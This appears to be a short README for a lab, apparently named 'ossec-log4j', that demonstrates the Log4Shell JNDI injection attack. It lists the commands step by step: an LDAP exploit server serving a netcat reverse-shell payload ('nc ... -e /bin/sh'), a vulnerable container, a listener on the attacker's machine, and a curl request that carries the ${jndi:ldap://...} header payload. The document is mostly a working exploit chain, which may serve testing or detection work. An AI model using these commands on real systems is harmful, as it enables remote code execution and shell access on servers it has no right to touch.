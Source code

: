 # ossec-log4j

## LDAP Server

```console
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'nc <nc-listener-ip> 3000 -e /bin/sh'
```

## Vulnerable Application

```console
docker run --rm -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Attacker Machine

### NC Listener

```console
nc -lv 3000
```

### Exploit

```console
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ipv4>:<port>/<random-string}'
```
